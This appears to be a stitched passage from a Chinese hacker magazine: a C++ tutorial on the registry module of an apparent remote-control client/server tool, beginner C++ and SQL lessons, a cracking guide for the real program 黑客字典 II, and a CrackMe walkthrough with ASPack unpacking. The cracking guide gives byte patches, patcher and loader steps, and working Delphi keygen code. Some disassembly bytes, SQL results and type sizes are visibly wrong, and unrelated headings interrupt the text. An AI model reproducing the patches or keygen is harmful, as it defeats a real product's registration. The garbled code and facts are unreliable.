好，我们现在开始。这里我又添加了一个名称为 `REG_MGR_GET_SUBITEM` 的宏定义，用于获取注册表的命令代号。好了，接下来就轮到两边收到指令后的处理了。现在来添加注册表相关指令的响应函数。首先就是遍历一个项下面的键和值，我们分开来处理，先处理键，再处理值。先遍历键吧，函数在上一篇中已经讲过，我们这里只需要循环处理就 OK 了，不过这里有一个函数我上一篇讲漏了，就是 RegOpenKey，函数原型如下：

```cpp
LONG WINAPI RegOpenKey(
  in  HKEY   hKey,
  in  LPCTSTR lpSubKey,
  out PHKEY  phkResult
);
```

老样子，我们说下参数。hKey 是一个注册表键的句柄，这里我们一般只填写预定义好的句柄；lpSubKey 是填写我们要打开的键相对于传入键的路径；phkResult 用于存放我们新打开键而得到的句柄。如果第二个参数为 NULL 或者是空字符串，那么 phkResult 将会返回传入的句柄，那么这样就失去意义了。

这个函数什么地方要用到呢？很明显，如果我们的父键就是根键的话，那就很简单；但是如果父键不是根键，那么我们就要通过这个函数来获取父键的句柄才能遍历，否则我们就悲剧了。这个地方的逻辑比较复杂，我们慢慢来说吧。这里我们要在 SocketRegData 里面加一个 HKEY 类型的成员，我这里命名为 hRootParent，用于存放根父键的句柄。还要加一个 wchar_t 类型的数组，用于存放键的路径，这个是有必要的。

现在要说的是 SocketRegData，根据我们的定义，看到里面有“获取到的项的父项”，这句话说得有点别扭。简单点说，这个数据包发过去之后，获取的是 A 项下面的子项，子项的父项即为 A，所以这里直接传 A 的句柄即可。第二个是当前项的根键，这里用循环去查找即可。第三个成员 Type 上一章讲过，是用于存放注册表值的类型，目前用不到。第四个是 keyPath，这个是个缓冲区用于存放当前项的路径；第五个是当前项的名字；第六个是当前项的值。

因为改过定义，而且是随手插了一条进去，顺序可能和大家不一样，所有代码以最新光盘中的代码为准。上一章的光盘有一个图片因为随手放了忘记打包，所以大家编译可能不通过，在新期刊中的源代码包中，会修正这个问题。

一个一个来说，首先，当前项的句柄是最简单的，就是现成的。到了 keyPath 和 hRootParent 就不好弄了。我也不知道有没有比较方便的函数直接获取根键，我这里采用笨办法，直接循环向上找。既然循环一层一层找，我们何不把当前项的路径一起找出来呢？这里我提示一下，GetParentItem 这个方法在传入值就是根节点的情况下，会返回 NULL，我们就正好利用这一点。我把我写的代码贴一下：

```cpp
// 获取注册表父根键句柄与路径
CString keyPath = L"";
HTREEITEM tempItem = hCurrentItem;
while (m_RegTree.GetParentItem(tempItem) != NULL)
{
    keyPath = L"\\" + m_RegTree.GetItemText(tempItem) + keyPath;
    tempItem = m_RegTree.GetParentItem(hCurrentItem);
}
if (wcscmp(m_RegTree.GetItemText(tempItem).GetBuffer(0), L"HKEY_CLASSES_ROOT") == 0)
    pdata->hRootParent = HKEY_CLASSES_ROOT;
else if (...)
    ...
```

首先定义一个 CString 类型的变量并初始化为空字符串。选用 CString 的原因很简单，就因为它很容易拼接字符串。再定义一个 HTREEITEM 类型的变量 tempItem 并初始化为当前项的句柄，然后开始 while 循环，首先尝试获取父节点，如果获取成功，说明当前节点不是根节点，然后进入循环体内，将当前项的路径拼接到 keyPath 中，注意我们这里拼接路径也是不要父节点路径的。然后继续查找父节点，如果父节点也不是根节点，那就再进入拼接路径、再获取，直到获取到了父节点句柄。因为这里如何判断是否为父节点不是很好处理，所以我采用了字符串比较的方式，这是应该尽量避免的，不过将就下吧。然后判断到底哪个是根节点，通过比较，就可以把 RootParent 弄出来啦。

那么现在还剩下 type、pName 和 value 没有给值，pName 这里我们直接 GetItemText 就 OK 了，其他两个既然可以展开，那就肯定是键不是值了，所以 type 肯定是键，不过这里我们就不分了，可以直接用特定的指令 ID 来分。value 就更没有啦。好，现在就可以准备发送了。这里我还有一点要说一下，我们现在要将之前我们定义的 CString 类型的 keyPath 中的字符串拷贝到数据包里的 keyPath 中，很多人容易这样写：

`memcpy(rdata->keyPath, keyPath.GetBuffer(), keyPath.GetLength());`

这样写是错的。这里我印象极其深刻，有一次一个项目就因为这么一个小小的理解错误，我调试了 3 天才找到原因。这里如果你用的是 ANSI 编码的话，可以这么写。但是，我们这里是 Unicode 编码，一个字符占用两个字节，但是 CString 的 GetLength() 方法是根据字符数来算的。也就是我们三个字，共占用 8 字节（不是我算错，而是还有结束符），但是 GetLength() 统计出来就是 3，因为这个方法不统计结束符，并且根据当前编码为 2 字节一个字符，所以长度为 3。这没错，确实一点错都没有。但是，别忘了，memcpy 是按字节来拷贝的，你传了 3，OK，拷贝 3 个字节，你就会悲剧地发现，原本 3 个字符的字符串被直接腰斩切掉一半。所以这里 GetLength() 统计了之后，要乘以 2 才是我们真正要拷贝的数据量。

好了，千辛万苦终于把数据包弄好了，准备发送呗。注意准备发送这里要做好错误判断，如果发送失败，应该怎么给用户反馈，总不能没反应吧？至于错误判断，以前我也讲过了，这里也不多说。接下来就要到服务端的处理了，首先添加一个消息处理函数，我们收到 ID 为 `REG_MGR_GET_SUBITEM` 的指令时，必然意味着服务端需要将子键发送给客户端了。现在我们先来根据接收到的数据包遍历注册表吧。首先取出我们所需要的 SocketRegData 中的数据，然后封装一个新的数据包发送回客户端，大致就是这样了。取得了 SocketRegData 的数据后，我们就可以开始进行遍历注册表了。首先有一点我们比较难处理，就是在获取父节点的句柄的时候要用 RegOpenKey 来获取。

但是这里又涉及一个路径的问题。其实上面我已经说过了，RegOpenKey 这里如果传入路径为空，会传出第一个参数，也就是我们的根节点，所以大家调试的时候应该能发现，当我展开根节点的时候，keyPath 就是为空的，所以这里没必要刻意去做判断，很自然地写两句：

```cpp
HKEY hParentKey = regdata->hRootParent;
RegOpenKey(hParentKey, regdata->keyPath, &hParentKey);
```

这样就解决问题了。现在注册表父项的句柄有了，接下来就是子项的遍历了，拉出我们的神器：RegEnumKey 吧。这里我简单地写了一个 while 循环：

```cpp
int i = 0;
WCHAR temp[1024];
while (RegEnumKey(hParentKey, i, temp, 1024) != ERROR_NO_MORE_ITEMS)
{
    i++;
}
```

从 i=0 开始直到最后一个键枚举完成，就可以了。我们现在只要在 while 循环中不停地组装数据包、发送，就 OK 了。不过客户端还没有处理函数，也得去弄一下。先组装数据包吧，既然是返回了一个新的类型的数据包，我们肯定要定义新的指令 ID，这里我定义了名为 `REG_MGR_KEY_INFO` 的指令 ID。完了以后我们就可以开始组装数据包了，这里组装数据包非常简单，只要填写父节点句柄和键名就 OK。那么数据的来回传递基本 OK 了。

本章的内容就到这里吧，下一章我们尽量完成注册表部分的代码，敬请期待。本章的内容因为都是写的逻辑代码，没什么东西可以截图看的，所以我这一章就没有配图。具体调试的话，贴图篇幅不够，所以有心学好 C++ 开发的最好自己手动来调试一下。好了，多的不说了，我们下个月再见。

## 走进C++（2）

大家好，我们上一章中介绍了如何新建一个项目，本章我们来学习一些基本的语法，让计算机来做一些简单的事情。上一章中，我们可能很多代码大家都不知道是什么意思，没关系，我们目前没必要知道，理解大概就行。那么现在我们来学习在控制台下面如何让计算机输出一句话。什么？不知道什么是控制台？哎呀，你悲剧了，好好补补基础去吧。在程序中，我们要在控制台输出很简单，只要用 printf 来输出即可。

但是，我们说既然是语言，我们肯定就要遵循一定的语法，不然计算机看不懂，写了也白搭。首先，第一条大家要知道的，每一条语句都要用“;”来结束，这个是最基本的。就和我们写作文要用句号结束一样。OK，这是第一个要明白的。那么现在我们是要让计算机输出我们自己指定的一句话，那么我们就要想办法告诉计算机我们要它干什么。根据语法，我们得这样来写：`printf("我们要输出的东西");`，那么打开我们的源代码试试呗……

# 月下孤笔

界面依然是一闪就过了，这个很头疼吧！其实并不是我们代码写错，而是计算机确实执行了输出，但是输出完了以后，一看 `return 0;`，OK，程序结束，所以闪一下就过了。那么这个我们应该怎么解决呢？大家当然想到，很简单，让计算机等下呗。我们最简单的处理办法就是让计算机等待我们输入，具体怎么实现，我们其实只要写一个 `scanf("");` 就可以了……

那么要学习编程，我们自然要接触到一个概念，那就是变量。这个是所有教程最喜欢涉及的话题。讲的人难讲，学的人难学……现在我们先不说变量，先说一下内存这东西。内存是一个电子设备，由无数电路构成，一个电路的开与合，我们视为 0 和 1……我们把一个二进制位称之为 1 个节点，而 8 个节点构成一个字节……所以就有了我们第一个数据类型：整型。在 C++ 中，我们用 `int` 来表示整型数据。

大家不妨算一下，一个整型数据可以存放哪个区间的整数呢？没错，就是 -2147483648~2147483647……这里只说一下现有的几种最基本的数据类型：

- 1. 整型（用于存放整数）：`int`，4 字节
- 2. 浮点型（用于存放小数）：`double`，4 字节
- 3. 字符型（用于存放 ANSI 字符）：`char`，1 字节
- 4. 字符型（用于存放 UNICODE 字符）：`wchar`，2 字节

上面就是我们最常用的几种数据类型了。其他的还有很多，我们后面用到了再讲。字符型为何要两种……在 C++ 中，很多东西不用我们自己去考虑，比如说我们现在要分配一块内存空间来存放一个整数，我们只要定义一个变量就可以了。至于什么是变量，如何定义，我们慢慢说……

```cpp
类型关键字 变量名;
```

这是定义一个变量的最基本语法；定义之后，操作系统就会自动找到一块没有使用的内存来给我们的程序；而通过变量名这个代号，我们可以很轻松地操作这块内存……变量名的规则就是，可以以 `$`、`_` 或者字母开头，可以包含字母、数字以及下划线……说到这里，我们就要学习 C++ 入门以来的第一个运算符，赋值运算符。

`=`，注意在程序中，这个符号已经不是我们数学中等于这个概念了，而是把赋值号右边的值存入左边的变量中。也就是说，在赋值号左边，只能放置变量，而右边，可以是变量或者是常量。估计大家又看到陌生词了，常量，常量是什么，就是无法改变的数据我们就称之为常量了。现在我们来定义一个叫做 hackx 的整型变量，并且把值设为 100，看看代码：

```c
int hackx;
hackx = 100;
```

这就是我们的代码，很简单吧，第一句，定义，第二句，赋值。但是大家可能想说，这么简单的一个事情，还得写两句代码，很烦呀。那也可以，我们可以在定义的同时来进行赋值，代码可以简化成这样：

```c
int hackx = 100;
```

怎么样？容易吧？什么？这么简单的一个操作还要写一句代码？靠，那你干脆别学程序了，那你可以一句代码都不写。好了，关于变量这块我就说到这里吧，这篇文章是我有史以来写过的最伤脑筋的文章了，有点短，有点啰嗦，有点臃肿！大家谅解，本人不是师范毕业，没那个水平说得很明白。不过黑 X 的读者应该基础都不会太差，我想不能理解的应该占少数，如果有人不理解什么地方，欢迎大家加 QQ:97005497 咨询。文中有的定义是为了让初级读者更好理解而稍作改动，并不一定完全准确，希望基础不错的 X 子不要钻牛角尖咯。好了，本月的走进 C++ 系列就到这里，我们下个月继续。


开始来个小测试，看看叉子们上次有没有学好 SQL 第一课吧。

- 1. 哪个 SQL 语句用于从数据库中提取数据？
- 2. 通过 SQL，您如何从 "Persons" 表中选取 "FirstName" 列？
- 3. 通过 SQL，您如何从 "Persons" 表中选取所有的列？

答案书里找

答案：

- 1. select
- 2. select FirstName from person
- 3. select * from person

本章讲解的是 select distinct 语句，and 和 or 运算符，delete 语句：

# 一、distinct 是用于返回唯一不同的值

以下是我们这次讲解要用的表：

“admin”表：

| name | Password |
|---|---|
| hackxfile | 123456 |
| administrator | 654321 |
| hcakxfile | 456789 |
| erevus | 987654 |

在结果集中，hackxfile 被列出了两次。如需从 name 列中仅选取唯一不同的值，我们需要使用 select distinct 语句，下面这一句就是查找 “admin” 表中的 name 唯一值：

```sql
select distinct name from admin
```

结果：

| name |
|---|
| hackxfile |
| erevus |
| administrator |

现在，在结果集中，"hackxfile" 就列出了一次。

## 二、DELETE 语句是用于删除表中的行。还是用回第 admin 表

语法：

```sql
Delete from 表名称 where 列名称 = 值
```

假如我们要删除 “administrator” 这一行，就输入 `Delete from admin where name = 'administrator'`。

这样 "administrator" 会被删除。

返回结果：

| LastName | FirstName | Address | City |
|---|---|---|---|
| hackxfile | 123456 |  |  |
| hcakxfile | 456789 |  |  |
| erevus | 987654 |  |  |

| LastName | FirstName | Address | City |
|---|---|---|---|
| Carter | Thomas | Changan Street | Beijing |

### 三、And 和 or 运算符

And 和 or 运算符是 SQL 中很重要的一个部分，在 SQL 注入经常会用到。And 可在 where 子语句中把两个或多个条件结合起来。

学过逻辑推理数学的文子都知道，“和”的意思，and 就是“和”。如果第一个条件和第二个条件都成立，and 运算符显示一条记录。

Or 就是“或”，只要第一个条件和第二个条件中有一个成立，则 or 运算符显示一条记录。

Persons 表：

| LastName | FirstName | Address | City |
|---|---|---|---|
| Adams | John | Oxford Street | London |
| Bush | George | Fifth Avenue | New York |
| Carter | Thomas | Changan Street | Beijing |
| Carter | William | Xuanwumen 10 | Beijing |

### AND 运算符例子：

使用 and 来显示所有姓为 "Carter" 并且名为 "Thomas" 的人：

```sql
select * from Persons where FirstName='Thomas' and LastName='Carter'
```

返回的结果：

| LastName | FirstName | Address | City |
|---|---|---|---|
| Carter | Thomas | Changan Street | Beijing |

#### or 运算符例子：

使用 or 来显示所有姓为 "Carter" 或者名为 "Thomas" 的人：

```sql
Select * from Persons where firstname='Thomas' OR lastname='Carter'
```

返回的结果：

| LastName | FirstName | Address | City |
|---|---|---|---|
| Carter | Thomas | Changan Street | Beijing |
| Carter | William | Xuanwumen 10 | Beijing |

我们也可以把 AND 和 OR 结合起来，使用圆括号来组成一个复杂的表达式来达到我们查询的需要，SQL 中也是按照先乘除后加减的数学运算法则，用括号括住当然就是先算括号里的啦…

下面我们要找一个人，他的 last name 是 “Carter”，first name 是 Thomas 和 William，那么我们需要的语句就是：

```sql
select * from Persons where (FirstName='Thomas' or FirstName='William')
and LastName='Carter'
```

返回的结果：

| LastName | FirstName | Address | City |
|---|---|---|---|
| Carter | Thomas | Changan Street | Beijing |
| Carter | William | Xuanwumen 10 | Beijing |

留一个作业给大家，用的是 Persons 表，假如我要删除 last name 是 “Carter”，first name 是 Thomas 和 William，那么应该怎么写呢？

# 破解补丁连连看

六月的日子不紧不慢地走着，高考总算是过去了。对学弟学妹们，送句话：好好学习，如果你想走一个有意义的人生！有些事情是只有体会过才会有感触，我作为旁观者也只能为你们默默地祝福。

这次破解的软件比较典型，我分析了几天，有了一些感触，就写下来。文章有些长，不过比较基础。对于分析注册流程一部分，强烈建议基础差的朋友亲身实践。还是送句话：欲速则不达。

大家都知道，破解补丁（此处破解补丁不局限于传统意义的某一补丁）无非就那么几种，像文件补丁、内存注册机以及水平更高些的手工编写的注册机。下面通过对黑客字典 II 这款软件的分析来讲解一下。黑客字典 II 是小榕前辈写的，软件明确指出，注册只是为了看有多少人用，而我们今日的目的也只是分析一下。因为注册不是为了盈利，软件并没有加壳保护，如图 1。

方的跳转，向上滚动鼠标一段时间后，会找到如下部分，省版面发张图。在图 4 的最下一行往下会看到：


下面还是老套路，载入 OllyIce 中，依旧用很普通但也很实用的方法，ASCII 字符串参考，如图 2。


上下翻或者右键查找字符串参考，找到如图 3 的地方，双击进入 CPU 的反汇编窗口。经验告诉我们，注册部分必定在上方不远处，这一过程需要读者自行尝试，并时时注意上方的跳转，向上滚动鼠标一段时间后，会找到如下部分：

```asm
00401CC7    80B424 84000000  lea  esi, dword ptr [esp+84]
00401CCE    8D8424 48010000  lea  eax, dword ptr [esp+148]
00401CD5    8A10             mov  dl, byte ptr [eax]
00401CD7    8ACA             mov  cl, dl
00401CD9    3A16             cmp  dl, byte ptr [esi]
00401CDB    75 1C            jnz  short ...
00401CDD    3ACB             cmp  cl, bl
00401CDF    74 14            je   short ...
```

# 神秘园

```asm
00401CE1    8A50 01         mov   dl, byte ptr [eax+1]
00401CE4    8ACA            mov   cl, dl
00401CE6    3A56 01         cmp   dl, byte ptr [esi+1]
00401CE9    75 0E           jnz   short 00401CF9
00401CEB    83C0 02         add   eax, 2
00401CEE    83C6 02         add   esi, 2
00401CF1    3ACB            cmp   cl, bl
00401CF3    75 E0           jnz   short 00401CD5
00401CF5    33C0            xor   eax, eax
00401CF7    EB 05           jmp   short 00401CFE
```

这一部分跳转密集，并且有较多的比较指令像 cmp，所以我们基本可以断定此处即跳转向注册成功或失败的地方了。向上找关键 Call，因为上面只有两个比较靠谱的 call，我们可以在这种情况下在上面的 call 上按 F2 下断点。下面继续很基本的 Ctrl+F2 重新载入程序，运行，输入用户名与注册码点确定，OllyIce 自动将软件停在已设的断点处。（提示：为了方便单步跟踪，通常我们输入的用户名要比较简单，像我用的 lengye，而不要输入汉字。）在断点处我们继续按 F8 单步跟踪，相信朋友们通过学习黑 X 里 rejector 连载的破解已经有了自己的体会了。把注册流程的反汇编窗口里关键的代码看下。我用 lengye 的用户名，123456 为注册码，进行单步跟踪，下面一部分我都加了注释，本想省些的，不过这部分都是完整的注册流程，对后面编写注册机有很大作用，也是分析很久得到的，我就没删去，拣我认为的关键部分分析一下。

```asm
00401C75    75 16           jnz   short 00401C8D
00401C77    8BC7            mov   eax, edi
00401C79    B9 1A000000     mov   ecx, 1A
00401C7E    99              cdq
00401C7F    F7F9            idiv  ecx
00401C81    80C2 61         add   dl, 61
00401C84    889434 48010000 mov   byte ptr [esp+esi+148], dl
```

```asm
00401C8B    EB 0A           jmp   short 00401C97
00401C8D    80C1 31         add   cl, 31
00401C90    888C34 48010000 mov   byte ptr [esp+esi+148], cl
00401C97    8D7C24 20       lea   edi, dword ptr [esp+20]
00401C9B    83C9 FF         or    ecx, FFFFFFFF
00401C9E    33C0            xor   eax, eax
00401CA0    46              inc   esi
00401CA1    F2:AE           repne scas byte ptr es:[edi]
00401CA3    F7D1            not   ecx
00401CA5    49              dec   ecx
00401CA6    3BF1            cmp   esi, ecx
00401CA8    72 89           jb    short 00401C33
00401CAA    33DB            xor   ebx, ebx
00401CAC    55              push  ebp
00401CAD    8D8C24 EC000000 lea   ecx, dword ptr [esp+EC]
00401CB4    889C34 4C010000 mov   byte ptr [esp+esi+14C], bl
00401CBB    E8 F0010000     call  00401EB0
00401CC0    899C24 B4010000 mov   dword ptr [esp+1B4], ebx
00401CC7    8DB424 84000000 lea   esi, dword ptr [esp+84]
00401CCE    8D8424 48010000 lea   eax, dword ptr [esp+148]
```

从 00401BF5 到 00401C31 与 00401CA1 到 00401CA8 部分是控制循环的，我们可以注意到，每一个注册名的字符对应一个注册码。而这一部分的作用就是遍历用户名，并计算对应的注册码。另外还是强调一下 JNZ 跳转，JNZ 比较的是 ZF 标志位，ZF 标志位前相应命令执行后，若结果为 0，则 ZF 标志位为 1，反之为 0，这是个很易弄混的地方。其他的命令若有不懂的建议百度一下。现在我们已经分析到注册流程，看不懂可以暂时放一下，先看一下我们目前已掌握信息可以用来尝试的补丁制作方法。

# 一、直接修改文件

这个就是很传统的暴破了，针对这个软件可以有不同方法，这里仅举两种来起抛砖之意。

一种是可以看到 `00401D00 /0F85 DF000000 jnz 00401DE5` 处跳转到注册码错误的提示处，于是我们就将 JNZ 修改为 JZ。

还有一种方法，大家注意上面最后几行代码：

```asm
00401CC7      8D8424 84000000   lea esi, dword ptr [esp+84]
00401CCE      8D8424 48010000   lea eax, dword ptr [esp+148]
```

这两行可以看用户输入的注册码与软件计算出的注册码在此处被传送到 esi 和 eax，然后进行比较，所以我们可以修改为：

```asm
00401CC7      8D8424 84000000   lea esi, dword ptr [esp+148]
00401CCE      8D8424 48010000   lea eax, dword ptr [esp+148]
```

这样就让程序自己去比较吧！


图5

# 二、文件补丁法

现在我们已经有了修改好的文件了，那么我们就可以制作比较简单的文件补丁了。拿 CodeFusion 为例（keymake 等也可以制作）。打开界面如图 5，输入必要的信息后单击下一步，在“要补丁的文件”部分有个绿色的“+”，单击选择文件如图 6，然后单击“要补丁的数据”部分的绿色“+”，选择“文件比较”，选好暴破后的文件后单击左下角的比较按钮，然后就可以自动比较了，如图 7。确定后回到程序单击“下一步”，单击“创建 Win32 可执行程序”，然后单击“完成”即可。制作好后将文件补丁与原程序放在同一目录下，运行文件补丁即可，如图 8。单击开始后原程序即可改为暴破后的文件了。


图6


图7


图8

# 三、内存注册机

这个曾在黑 X 上提过，朋友们可翻阅过去的杂志，在此不浪费版面。简单提一下，keymake 里内存注册机与内存补丁原理及制作是一个思路。

```asm
00401CD5    >  8A10          mov dl, byte ptr [eax]
```

这里就是把软件计算出的注册码存到寄存器 EAX 中。

| 代码地址 | 中断次数 | 第一字节 | 指令长度 |
|---|---:|---|---:|
| 00401CD5 | 1 | 8A | 2 |

用已介绍过的两种方法制作即可，不再赘述。程序如图9。


图9

既然如此，我们也就可以编写相应的注册机了。我用比较习惯的 Delphi 编写，其他高级语言类似。关键代码如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var s:string;
    i,e,t,y,u:integer;
begin
  edit2.Text:='';
  s:=edit1.text;
  for i:=1 to length(s) do
  begin
    e:=ord(s[i]);
    t:=e mod 10;
    if odd(e) then
    begin
      y:=t mod 3;
      if y=0 then
      begin
        u:=e mod 26;
        u:=u+97;
      end
      else
      begin
        u:=t+49;
      end;
    end
    else
    begin
      y:=e mod 26;
      u:=y+65;
    end;
    edit3.Text:=chr(u);
    edit2.Text:=edit2.Text+edit3.Text;
  end;
end;
```

# 四、手工编写注册机

终于到了最激动人心也是难度较大的一部分了。首先提示，编写注册机不一定很难，但一定要有耐心。就我对反汇编代码的分析，我们可以得到注册码的计算流程如下：

- 输入用户名，进入计算注册码的循环。
- 传送第一个字符的十六进制。
- 1：ASCII 十进制与十进制 10 相除，余数与 80000001 进行 and 运算……若结果为零跳入 1.1，否则跳入 2。
- 1.1：ASCII 对应十进制与十进制 26 相除得余数 x，再用 x 加上 65（十六进制 41）得到十进制数，对应注册码 ASCII 可得。
- 2：余数与 3 相除，若余数不为零，进入 3；若余数为零，进入 4。
- 3：ASCII 十进制与 10 相除的余数和十进制 49（十六进制 31）相加，得到十进制数，找到对应的 ASCII。
- 4：取该字母的 ASCII 十进制与 26 相除，余数与十进制 97 相加，得到十进制数，找到对应 ASCII。

上面便是我整理的注册流程。


图10

其中 `e:=ord(s[i])` 是获取每一位用户名对应的 ASCII 十进制值。

# 总结

文章比较长，对软件分析也比较久。最大的感触就是万事都得慢慢来，心急解决不了任何问题。这对一些朋友的学习也是必要的。另外，推荐一个工具“破解器计算工具”，在分析过程中作用很大。几个必要的工具与代码我已经打包，读者可在光盘下载。

> （文章中涉及的相关软件与代码本期光盘已收录）

# 秣马厉兵，逆向玩透——记一次 CrackMe 破解

冷夜

众所周知，破解入门的一个很好的方法就是破解 CrackMe（CM）。当然，有些朋友或许会不以为然，总认为只有破解软件得到注册码才是王道，殊不知破解的经验积累、高手破解的每一步，都是从破解一个个 CrackMe 等软件开始的。朋友曾告诉我 ISCLAB 竞赛里有几道破解题可以看一下，当时时间紧张，就只下载了前三关。下面就本人对前三关的破解过程来体验一次逆向分析。

# 第一关：基础是王道

第一关相对简单，只需要填写注册码验证即可，如图1。

## 脱壳部分

用 PEiD 查壳，Microsoft Visual C++ 6.0 [Overlay]，与程序标识的“易语言程序”不同，这里不需在意，总之是没有加壳，嘿嘿。

```asm
00401064  . 3945 F8        cmp  dword ptr [ebp-8],eax
00401067  . 0F85 40000000  jnz  004010AD
```


## 动态调试部分

将 CrackMe 载入 OllyIce，右键选择“查找-所有参考字符串”，如图2。


进入文本字符串参考，向上滚动，寻找比较敏感的字符串，看到图3的地方。

双击“加油”，回到反汇编窗口。向上滚动一点，看到图4的位置，可以看出跳转向成功或失败的关键部分如下：

如果 `dword ptr [ebp-8]` 与 `eax` 相等，则 ZF 标志位为 1，就转向成功，否则为失败。注意，对于 CM 程序通常需要单步调试一次，这样会对程序有较好的把握，另外利用 OD 的插件才会找到字符串。刚入程序单步时会进入死循环，按 F4 跳过，下面的就好说了，多试几次就好。在 00401064 处按 F2 下断点。重新载入程序，直接运行，输入注册码，单击确认，程序会停在下断点处即 cmp 比较的地方，如图4。


## 动态调试部分（补充）

还是载入 OllyIce 查找字符串参考，同样能达到目的，这是分析到后来发现的，crackme1 和 crackme2 竟然可以用同种方法破解，囧了。有图为证，如图7。

这里简介一下我最初分析时用的另一种方法：函数断点法。利用的是 Windows 常用的一个 API：MessageBoxA。也是比较简单的。程序载入到 OllyIce 后，在左下角命令行输入 `BP MessageBoxA`，或者右键“查找--当前模块中的名称（标签）”，如图8。


注意此时寄存器的内容：`EAX=000007DB`，而堆栈 `ss:[0012F6FC]` 即 `dword ptr:[ebp-8]=0000007B`。这里我们知道 7B 是十六进制，换算十进制就是 123，就是我输入的注册码。那么 7DB 就应该是真正的注册码。转换一下，真正的注册码是 2011。


## 总结部分

第一关比较基础，利用的也都是比较基础的方法。其中字符串参考可谓经久不衰了。当然，其他方法也是有的；比如说沧海浮萍一直提及的消息断点法，这里就把空间留给读者了。

# 第二关：换汤不换药

分析第二关会是一个比较有意思的过程。第二关是个注册机，界面如图6，题目要求是以 2011 为用户名得到正确的注册码。

## 脱壳部分

同样是个没有加壳的程序：Microsoft Visual C++ 6.0 [Overlay]，这里就不截图了。

找到 MessageBoxA，右键选择在每个参考上设置断点，如图9。


这时按下 Ctrl+F2 重新载入程序，按 F9 运行，输入 2011 和错误的注册码 1234，程序自动停在断点处。断点这里马上就调用 MessageBoxA 了，表明程序已经将用户名和注册码比较完毕。向上翻一番，会发现下面区域（中间部分省略）：

00401460 是该部分的头部，那就在此处按 F2 下断点。接下来的思路很好想，就是找到哪里用到或调用了 00401460。右键选择“转到”没有发现什么调用，那就换个思路，右键选择“查找参考--选定命令”，如图10，这样就进入如图11的窗口。上面两个关于 00401460 的调用相距较近，没什么区别，我就双击第一个。

```asm
00401460  83EC 64        sub esp,64
00401463  56             push esi
00401464  8B7424 74      mov esi,dword ptr [esp+74]
00401468  57             push edi
00401469  8B7E 08        mov edi,dword ptr [esi+8]
0040146C  57             push edi
0040146D  E8 7EC00000    call 0040D4F0
00401472  83C4 04        add esp,4
00401475  85C0           test eax,eax
00401477  74 10          je short 00401489
...
004014FB  50             push eax
004014FC  52             push edx
004014FD  51             push ecx
004014FE  6A 00          push 0
00401500  FF15 A0834600  call dword ptr [<&USER32.MessageBoxA>]
```


进入图12的代码区域。


关键代码如下：

```asm
00401064  3945 F8        cmp dword ptr [ebp-8],eax
00401067  0F85 40000000  jnz 004010AD
0040106D  68 04000080    push 80000004
00401072  6A 00          push 0
00401074  68 519B4600    push 00469B51
00401079  68 01030080    push 80000301
0040107E  6A 00          push 0
00401080  68 40000000    push 40
00401085  68 04000080    push 78000004
0040108A  6A 00          push 0
```

```asm
0040108C    68 5F9B4600    push 00469B5F
00401091    68 03000000    push 3
00401096    BB 60144000    mov ebx, 00401460
...
0040109B    E8 51010000    call 004011F1
004010A0    83C4 28        add esp, 28
004010A3    E9 40000000    jmp 004010E8
004010A8    E9 60FFFFFF    jmp 0040100D
004010AD    68 04000080    push 80000004
004010B2    6A 00          push 0
004010B4    68 5F9B4600    push 00469B5F
; ASCII "加油"
```

此部分与 CrackMe1 部分极相似，也是在 00401064 处通过 `cmp` 比较 `dword ptr [ebp-8]` 与 `eax`。下面思路就明了，和第一关一样，在 00401064 按 F2 下断点，运行即可。这个 CrackMe2 的算法分析可以找一下，就在上方的一个 CALL 调用里，这里我就不多说了，得靠大家自己分析了。

# 第三关：加壳来挡道

第三关题目是这样讲的：这道题看起来和第一关很像，其实可不太一样。很抽象的问题，呵呵。第三关的 CrackMe 运行如图13。


## 脱壳部分

PEiD 查壳，汗颜，一个 CM 加了壳：ASPack 2.x (without poly) -> Alexey Solodovnikov [Overlay]。也就是说，第三关是一个检验脱壳能力的一关。至于这个壳，我试过几次，普通单步试图不脱壳破解，最终只会陷入死循环里，一跳出死循环就直接运行。这也就是题目所说，其实与第一关可不太一样。当然，这并不意味着不脱壳破解就是不可能的。

得到的答案的确是肯定的，方法我录了下来，因为我尚未完全理解，就暂不总结了，读者可以自行在光盘拷贝里理解。这里我是以先脱壳后破解的思路来破解的。


首先载入 OllyIce，出现图14所示提示，按下 Shift+F9 忽略所有异常进入程序。弹出图15所示的对话框，说明这个壳有对程序代码进行压缩。这里还是选择否。终于进入程序的汇编窗口，如图16。

没别的好方法，只好单步走了。单步走几下会有一个返回，代码如下：

```asm
00485010    5E          pop esi
00485011    FF3432      push dword ptr [edx+esi]
00485014    310424      xor dword ptr [esp], eax
00485017    8F0432      pop dword ptr [edx+esi]
0048501A    4E          dec esi
0048501B    83EE 03     sub esi, 3
0048501E    75 F1       jnz short 00485011
00485020    16          push ss
```

在 00485020 按 F4 跳过，否则是走不完的死循环。跳过后代码立即变了：

```asm
00485020  E8 7D010000   call 004851A2
00485025  0000          add byte ptr [eax], al
00485027  0000          add byte ptr [eax], al
00485029  0040 00       add byte ptr [eax], al
```

00485020 处按 F7 跟进（如果不跟进程序就会运行），来到了这片代码区域：

```asm
004851A2 55             push ebp
004851A3 8BEC           mov ebp, esp
004851A5 81C4 B4FFFFFF  add esp, -4C
...
004851D4 8BC5           mov eax, ebp
```

乍一看 004851A2 处很像是 Delphi 的特征码，但事实并非如此。

可是这个壳不会这么容易就可以脱掉的（不相信可以试一下）。现在 ESP 寄存器已经变化了。这时用 ESP 定律，在命令窗口输入 `hr 0012FFC0`，并回车，如图17。


按 F9 运行，第一次断点停在：

```asm
004851B6 83EA 05   sub edx, 5
```

很明显，这里不是。继续按一次 F9，来到这里：

```asm
004851D8 FF75 F8   push dword ptr [ebp-8]
```

这里也不是，继续到达这里，这里有点眉目了。看此处的代码：

```asm
00482001 60            pusha
00482002 E8 03000000   call 0048200A
00482007 E9 EB045D45   jmp ...
0048200C 55            push ebp
0048200D C3            retn
0048200E E8 01000000   call 00482014
```

看起来很像经典的 ASPack，但事实是这里还没完呢（可以跳出来试一试）。继续 F9 到达如图18的地方。


单步走几下，经验告诉我们快到 OEP 了，单步跟踪这里。

```asm
0047F001    60    pushad
```

```asm
dword ptr [465088]
00401313  C1E0 02      shl eax, 2
00401316  A3 8F504600  mov dword ptr [46508F], eax
```

仍然没有到，要有耐心。再按几下，终于到了这里，如图19。


